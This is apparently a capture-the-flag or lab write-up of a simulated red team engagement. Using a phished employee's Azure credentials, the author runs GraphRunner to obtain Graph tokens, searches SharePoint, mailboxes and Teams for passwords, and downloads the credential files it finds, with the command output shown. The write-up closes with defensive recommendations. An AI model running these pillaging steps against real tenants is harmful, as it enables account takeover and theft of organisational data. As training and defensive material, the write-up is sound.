





## Scenario

```
Your red team is on an engagement and has successfully phished a Mega Big Tech employee to gain their credentials. So far, increasing access within Azure has reached a dead end, and you have been tasked with unlocking further access. In scope is the entire on-premises and cloud infrastructure. Your goal is to gain access to customer records and demonstrate impact.
```

## Walkthrough

I was provided Azure credentials `Clara.Miller@megabigtech.com:MegaBigTech99` and tasked with pillaging on-premises and cloud infrastructure to exfiltrate customer records.

To accomplish this task, I will use `GraphRunner`, a toolset for reconnaissance, persistence, and data pillaging. It interacts with the Microsoft Graph API using the credentials and tokens it is given.

Microsoft Graph API is a unified API endpoint that allows developers and administrators to interact with data and services across Microsoft 365 and Azure, including Outlook, SharePoint, Teams, OneDrive, and even custom applications registered in Entra ID.

Azure uses many token types, but the primary ones are the ID token, the access token, and the refresh token. I will give a quick TLDR for each below.

**ID token:** Used to verify the identity of a user when they access an application. Applications include Teams, Outlook, or SharePoint. The ID token proves who the user is so the app can sign them in and establish a session.

**Access token:** Defines what the user is allowed to access within a specific resource. In the context of GraphRunner, the resource is the Microsoft Graph API. Other examples include Azure Key Vault or applications that expose protected APIs. For example, I use an ID token to authenticate to SharePoint and an access token to request data from groups or folders within SharePoint.

**Refresh token:** Used to obtain a new access token without requiring the user to reauthenticate. Refresh tokens have a longer lifetime than access tokens. By default, refresh token lifetimes range from 24 hours for single page apps to 90 days for other app types, while access tokens are usually valid for about one hour. If an attacker obtains a user's refresh token through social engineering or a malicious app consent, it can be used as a form of persistence.

Let's retrieve our access token via `GraphRunner` and its `Get-GraphTokens` module and pick apart the output.

```
PS C:\Users\jonat\Desktop\cloud\GraphRunner> Import-Module .\GraphRunner.ps1
>>

  ________                     __      _______      by Beau Bullock (@dafthack)
 /_______/___________  ______ |  |____/_______\__ __  ____   ____   ___________
/___\  __\______\____\ \_____\|__|__\|________/__|__\/____\ /____\_/____\______\
\    \_\  \  | \// __ \|  |_/ |   Y  \    |   \  |  /   |  \   |  \  ___/|  | \/
 \________/__|  (______/__|   |___|__|____|___/____/|___|__/___|__/\___| >__|
                 Do service principals dream of electric sheep?

For usage information see the wiki here: https://github.com/dafthack/GraphRunner/wiki
To list GraphRunner modules run List-GraphRunnerModules

PS C:\Users\jonat\Desktop\cloud\GraphRunner> Get-GraphTokens
To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code F85LWZE4W to authenticate.

Decoded JWT payload:


aud                 : https://graph.microsoft.com
iss                 : https://sts.windows.net/2590ccef-687d-493b-ae8d-441cbab63a72/
iat                 : 1762382148
nbf                 : 1762382148
exp                 : 1762386557
acct                : 0
acr                 : 1
aio                 : AUQAu/8aAAAA9+vsrJIRo4/vKZjj9ePDk1CaNNeeQdvukkX1OHkmpfcq6WhcA4h1jP6uyml0ZSET/QgM6wBQmq4BWMGXCjfSz
                      A==
amr                 : {pwd}
app_displayname     : Microsoft Office
appid               : d3590ed6-52b3-4102-aeff-aad2292ab01c
appidacr            : 0
idtyp               : user
ipaddr              : 128.118.12.8
name                : Clara Miller
oid                 : 36fa333d-1720-4920-8a5c-2b9b696c6adf
platf               : 5
puid                : 100320030F19ABE1
rh                  : 1.AU4A78yQJX1oO0mujUQcurY6cgMAAAAAAAAAwAAAAAAAAAAOASZOAA.
scp                 : AuditLog.Create Calendar.ReadWrite Calendars.Read.Shared Calendars.ReadWrite Contacts.ReadWrite
                      DataLossPreventionPolicy.Evaluate Directory.AccessAsUser.All Directory.Read.All Files.Read
                      Files.Read.All Files.ReadWrite.All FileStorageContainer.Selected Group.Read.All
                      Group.ReadWrite.All InformationProtectionPolicy.Read Mail.ReadWrite Mail.Send Notes.Create
                      Organization.Read.All People.Read People.Read.All Printer.Read.All PrinterShare.ReadBasic.All
                      PrintJob.Create PrintJob.ReadWriteBasic Reports.Read.All SensitiveInfoType.Detect
                      SensitiveInfoType.Read.All SensitivityLabel.Evaluate Tasks.ReadWrite TeamMember.ReadWrite.All
                      TeamsTab.ReadWriteForChat User.Read.All User.ReadBasic.All User.ReadWrite Users.Read
sid                 : 00a8a3f9-377a-5d46-7da2-6945949a14fe
sub                 : im_M2qhyIujfisFSZHslky09ssHy9JHoPvVzLERzLs0
tenant_region_scope : EU
tid                 : 2590ccef-687d-493b-ae8d-441cbab63a72
unique_name         : Clara.Miller@megabigtech.com
upn                 : Clara.Miller@megabigtech.com
uti                 : jZq4kgW3sESlka89XSNMAA
ver                 : 1.0
wids                : {88d8e3e3-8f55-4a1e-953a-9b9898b8876b, b79fbf4d-3ef9-4689-8143-76b194e85509}
xms_act_fct         : 3 5
xms_ftd             : Suo2b1MMpLjuZBEwtmgbk2hA9cl3DtIMeeJHB7QzS5QBc3dlZGVuYy1kc21z
xms_idrel           : 1 10
xms_sub_fct         : 3 12
xms_tcdt            : 1671311182
xms_tnt_fct         : 3 8
```

Nice! There's a lot of information here, so let's just describe what's important for a conceptual understanding of how the Graph API works under the hood.

The output from `GraphRunner` shows the contents of our access token. This token's audience (`aud`) is `https://graph.microsoft.com`, which is the API endpoint for Microsoft's Graph API. The token was issued (`iss`) by Microsoft's Security Token Service (`sts`) for tenant ID `2590ccef-687d-493b-ae8d-441cbab63a72`, as indicated by `https://sts.windows.net/2590ccef-687d-493b-ae8d-441cbab63a72/`. We authenticated through `https://microsoft.com/devicelogin`, and the application (`app_displayname`) "Microsoft Office" requested this access token from the Security Token Service on behalf of Clara Miller. The token includes a wide range of delegated permissions (`scp`) that grant read and write access across multiple Microsoft 365 services. The most notable are `Files.ReadWrite.All`, `Mail.ReadWrite`, `Directory.AccessAsUser.All`, `Group.ReadWrite.All`, and `InformationProtectionPolicy.Read`, all of which enable extensive access to organizational data, mailboxes, files, and security configurations.

Now that we understand how GraphRunner works under the hood, let's take a look at the modules it has available to us.

```
PS C:\Users\jonat\Desktop\cloud\GraphRunner> List-GraphRunnerModules
[*] Listing GraphRunner modules...
-------------------- Authentication Modules -------------------
        MODULE                  -        DESCRIPTION
Get-GraphTokens                 -        Authenticate as a user to Microsoft Graph
Invoke-RefreshGraphTokens       -        Use a refresh token to obtain new access tokens
Get-AzureAppTokens              -        Complete OAuth flow as an app to obtain access tokens
Invoke-RefreshAzureAppTokens    -        Use a refresh token and app credentials to refresh a token
Invoke-AutoTokenRefresh -        Refresh tokens at an interval.
----------------- Recon & Enumeration Modules -----------------
        MODULE                  -        DESCRIPTION
Invoke-GraphRecon               -        Performs general recon for org info, user settings, directory sync settings, etc
Invoke-DumpCAPS                 -        Gets conditional access policies
Invoke-DumpApps                 -        Gets app registrations and external enterprise apps along with consent and scope info
Get-AzureADUsers                -        Gets user directory
Get-SecurityGroups              -        Gets security groups and members
Get-UpdatableGroups             -        Gets groups that may be able to be modified by the current user
Get-DynamicGroups               -        Finds dynamic groups and displays membership rules
Get-SharePointSiteURLs          -        Gets a list of SharePoint site URLs visible to the current user
Invoke-GraphOpenInboxFinder     -        Checks each user's inbox in a list to see if they are readable
Get-TenantID                    -        Retrieves the tenant GUID from the domain name
--------------------- Persistence Modules ---------------------
        MODULE                  -        DESCRIPTION
Invoke-InjectOAuthApp           -        Injects an app registration into the tenant
Invoke-SecurityGroupCloner      -        Clones a security group while using an identical name and member list but can inject another user as well
Invoke-InviteGuest              -        Invites a guest user to the tenant
Invoke-AddGroupMember           -        Adds a member to a group
----------------------- Pillage Modules -----------------------
        MODULE                  -        DESCRIPTION
Invoke-SearchSharePointAndOneDrive      -        Search across all SharePoint sites and OneDrive drives visible to the user
Invoke-ImmersiveFileReader      -        Open restricted files with the immersive reader
Invoke-SearchMailbox            -        Deep searches across a user's mailbox and can export messages
Invoke-SearchTeams              -        Search all Teams messages in all channels that are readable by the current user
Invoke-SearchUserAttributes     -        Search for terms across all user attributes in a directory
Get-Inbox                       -        Gets inbox items
Get-TeamsChat                   -        Downloads full Teams chat conversations
-------------------- Teams Modules ----------------------------
        MODULE                  -        DESCRIPTION
Get-TeamsApps                   -        Enumerates Teams chat channels and grabs URLs of installed apps
Get-TeamsChannels               -        Enumerates all accessible teams and channels
Find-ChannelEmails              -        Looks for any email addresses associated with teams/channels
Get-ChannelUsersEnum            -        Enumerates a channel's user list
Get-ChannelEmail                -        Checks/creates a channel email address and sets sender permissions
Get-Webhooks                    -        Finds webhooks in channels and their configurations
Create-Webhook                  -        Creates a webhook in a channel and provides the URL
Send-TeamsMessage               -        Sends a message via Teams webhook (no auth required)
--------------------- GraphRunner Module ----------------------
        MODULE                  -        DESCRIPTION
Invoke-GraphRunner              -        Runs multiple recon and pillage modules and searches using default_detectors.json
-------------------- Supplemental Modules ---------------------
        MODULE                  -        DESCRIPTION
Invoke-DeleteOAuthApp           -        Delete an OAuth App
Invoke-DeleteGroup              -        Delete a group
Invoke-RemoveGroupMember        -        Remove users/members from groups
Invoke-DriveFileDownload        -        Download single files as the current user
Invoke-CheckAccess              -        Check if tokens are valid
Invoke-AutoOAuthFlow            -        Automates OAuth flow via local web server
Invoke-HTTPServer               -        Basic web server for viewing SearchMailbox output
Invoke-BruteClientIDAccess      -        Tests various ClientIDs against MS Graph
Invoke-ImportTokens             -        Import tokens from other tools into GraphRunner
Get-UserObjectID                -        Retrieves a user's object ID
================================================================================
```

Since we're tasked with exfiltrating customer data, the pillage modules are probably the most useful for us. However, the `Invoke-GraphRunner` module looks interesting as it says it "runs multiple recon and pillage modules". Let's run that first.

```
PS C:\Users\jonat\Desktop\cloud\GraphRunner>  Invoke-GraphRunner -Tokens $tokens
[*] Using the provided access tokens.
[*] Now running Invoke-GraphRecon.
Sleeping for 0 seconds.
[*] Now getting all users
Sleeping for 0 seconds.
[*] Now getting all groups
Security groups exported to security_groups.csv.
Sleeping for 0 seconds.
[*] Now getting conditional access policies
Sleeping for 1 seconds.
[*] Now getting applications
Sleeping for 0 seconds.
[*] Now searching Email using detector file .\default_detectors.json. Results will be written to GraphRunner-20251105184414.
Sleeping for 1 seconds.
[*] Now searching SharePoint and OneDrive using detector file .\default_detectors.json. Results will be written to GraphRunner-20251105184414.
Sleeping for 0 seconds.
[*] Now searching Teams using detector file .\default_detectors.json. Results will be written to GraphRunner-20251105184414.
[*] Results have been written to GraphRunner-20251105184414
```

This module pulls a list of users, groups, applications, SharePoint and OneDrive files, and Teams messages using a default rule file `default_detectors.json` and outputs it in a directory for us.

```
PS C:\Users\jonat\Desktop\cloud\GraphRunner\GraphRunner-20251105184414> ls


    Directory: C:\Users\jonat\Desktop\cloud\GraphRunner\GraphRunner-20251105184414


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         11/5/2025   6:46 PM          40329 apps.txt
-a----         11/5/2025   6:44 PM          20954 caps.txt
-a----         11/5/2025   6:44 PM          18994 groups.txt
-a----         11/5/2025   6:46 PM              0 interesting-teamsmessages.csv
-a----         11/5/2025   6:44 PM           1326 recon.txt
-a----         11/5/2025   6:44 PM           2806 users.txt

```

For the sake of brevity, I'll let you know there's nothing interesting in these, so let's take a look at some of the other pillage modules starting with `Invoke-SearchSharePointAndOneDrive`.

```
PS C:\Users\jonat\Desktop\cloud\GraphRunner> Get-Help Invoke-SearchSharePointAndOneDrive -Detailed

NAME
    Invoke-SearchSharePointAndOneDrive

SYNOPSIS
    This module uses the Graph search API to search for specific terms in all SharePoint and OneDrive drives available to the logged in user. It prompts the user which files they want to download.
    Author: Beau Bullock (@dafthack)
    License: MIT
    Required Dependencies: None
    Optional Dependencies: None


SYNTAX
    Invoke-SearchSharePointAndOneDrive [[-Tokens] <Object[]>] [-SearchTerm] <String> [[-ResultCount] <String>] [[-DetectorName] <String>] [[-OutFile] <String>] [-ReportOnly] [-PageResults] [-GraphRun] [-Device <String>]
    [-Browser <String>] [<CommonParameters>]


DESCRIPTION
    This module uses the Graph search API to search for specific terms in all SharePoint and OneDrive drives available to the logged in user. It prompts the user which files they want to download.


PARAMETERS
    -Tokens <Object[]>
        Pass the $tokens global variable after authenticating to this parameter

    -SearchTerm <String>
        The term you want to search for. This accepts KQL queries so you can use terms like "filetype", "content", and more.

[Truncated...]
    -------------------------- EXAMPLE 1 --------------------------

    C:\PS>Invoke-SearchSharePointAndOneDrive -Tokens $tokens -SearchTerm 'password filetype:xlsx'

```

In order to use this module, all I have to do is provide a token and a search term. In this case, I do want to search for passwords, so let's use a command similar to the one the example gave us.

```
PS C:\Users\jonat\Desktop\cloud\GraphRunner> Invoke-SearchSharePointAndOneDrive -Tokens $tokens -SearchTerm password
[*] Using the provided access tokens.
[*] Found 2 matches for search term password
Result [0]
File Name: passwords.xlsx
Location: https://megabigtech.sharepoint.com/Shared Documents/passwords.xlsx
Created Date: 2024-03-27T00:13:10Z
Last Modified Date: 2025-04-24T14:49:38Z
Size: 14.78 KB
File Preview: <ddd/><c0>Password</c0> Azure lindsey_adm $R4ncher2043 Dev Env r&d $MEGAPRODUCTS-777$ 1Password Lindsey.<ddd/>
DriveID & Item ID: b!bT4vhymq0UWW7LvQnMzGLIicHuknVeZGkE3-8tuCtaeO-nKW9TKYT7NHHw0ABSux\:017K7QPLPAKVIRHIULQ5BK6A3KQTCK2SCD
================================================================================
Result [1]
File Name: Finance Logins.docx
Location: https://iancloudpwned.sharepoint.com/sites/FinanceTeam/Shared Documents/Finance Logins.docx
Created Date: 2023-11-06T00:17:46Z
Last Modified Date: 2023-11-06T00:17:00Z
Size: 20.74 KB
File Preview: <ddd/><c0>PASSWORDS</c0>) Service/Account: Finance Database URL: https://10.10.11.15/login Username: <ddd/> <c0>Password</c0>: F1n@nc3Db2023! Service/Account: Accounting Software URL: https://accounting.<ddd/>
DriveID & Item ID: b!XM0yHkS8s0KPA7drboV7c7bd4PO1jD1BpS2fN8axCu6HW_Ya2jEcSZSebeuGuDsI\:01UALFMSZAKNKICFDDHRH2II4AID3NQRGJ
================================================================================
[*] Do you want to download any of these files? (Yes/No/All)
all
[***] WARNING - Downloading ALL + 2 matches.
[*] Now downloading passwords.xlsx
[*] Now downloading Finance Logins.docx
[*] Do you want to download any more files? (Yes/No/All)
all
```

This is nice! It tells us the URL of the files that match the query and the option to download them locally. In this case, two files: `Finance Logins.docx` and `passwords.xlsx`.





Let's continue our conquest for more credentials with Teams and Outlook.

```
PS C:\Users\jonat\Desktop\cloud\GraphRunner> Invoke-SearchMailbox -Tokens $tokens -SearchTerm "password" -MessageCount 40
[*] Using the provided access tokens.
[*] Found 5 matches for search term password
Subject: Subscribers database | Sender: /O=EXCHANGELABS/OU=EXCHANGE ADMINISTRATIVE GROUP (FYDIBOHF23SPDLT)/CN=RECIPIENTS/CN=EF775FA670FB409789970E587F6F4F04-36FA333D-17 | Receivers: Sam Olsson | Date: 2023-11-06T17:24:50Z | Message Preview: ...login below: Username: financereports Password: $reporting$123 Server: mbt-finance.database.windows.net Database: Finance Clara ...
================================================================================
```

Searching the user's mailbox provides us with credentials to an Azure SQL server, a potential vector for lateral movement. Let's finally enumerate Teams.

```
PS C:\Users\jonat\Desktop\cloud\GraphRunner> Invoke-SearchTeams -Tokens $tokens -SearchTerm "password" -ResultSize 100
[*] Using the provided access tokens.
[*] Refreshing token for Teams use...
From: Clara.Miller@megabigtech.com | Summary: password: openme123!
Full Message Body: <html><head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8"></head><body><p>password: openme123!</p></body></html>
================================================================================
From: Clara.Miller@megabigtech.com | Summary: Call IT to reset my password for accounting system
Full Message Body: <html><head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8"></head><body><p>Call IT to reset my password for accounting system</p></body></html>
================================================================================
From: Clara.Miller@megabigtech.com | Summary: Call IT to reset my password for accounting system
Full Message Body: <html><head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8"></head><body><p>Call IT to reset my password for accounting system</p></body></html>
================================================================================
From: Clara.Miller@megabigtech.com | Summary: password: openme123!
Full Message Body: <html><head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8"></head><body><p>password: openme123!</p></body></html>
================================================================================
```

Nothing necessarily useful here. Let's turn our attention to the SQL server. You could connect and query via PowerShell, but I like making my life easier, so I will download [SQL Server Management Studio](https://learn.microsoft.com/en-us/ssms/install/install), or in the fraction of the time that was taking I can install a SQL Server extension for VS Code and continue using that.

We authenticate using our credentials:



Once authenticated, we can view the tables within the database and select the top 1000 results from that table:



The query returns the full contents of the table as well as my flag:


## Defensive Considerations 

**Review Excessive User Permissions**

Clara Miller had way too many permissions through the Microsoft Office application. Her token included `Mail.ReadWrite`, `Files.ReadWrite.All`, and `Directory.AccessAsUser.All`, which let her read emails between other people in the organization. This is how I found database passwords in Sam Olsson's inbox. Most users should only have `Mail.Read` for their own mailbox, not org-wide access. 

**Implement DLP Policies**

The `passwords.xlsx` and `Finance Logins.docx` files had plaintext credentials sitting in SharePoint. Set up DLP rules to scan for password patterns, connection strings, and database credentials in files and emails. Configure the policies to block access or prevent sharing when they find this stuff, and send alerts to your security team. 

**SQL Database Hardening**

The credentials `financereports:$reporting$123` shouldn't exist at all. Use managed identities for anything that needs to talk to the database. The SQL server `mbt-finance.database.windows.net` was sitting on the public internet with SQL auth enabled. Lock it down with firewall rules so it only accepts connections from your virtual network, or use private endpoints to keep it off the internet entirely. 

**Monitor Bulk Graph API Operations**

The `Invoke-GraphRunner` module made dozens of API calls back to back to enumerate users, groups, SharePoint sites, and mailboxes. Set up alerts for this kind of activity like mass directory queries, bulk file downloads from multiple sites, or searching mailboxes the user doesn't own. Enable audit logging and create detection rules in your SIEM. Normal users don't enumerate your entire org.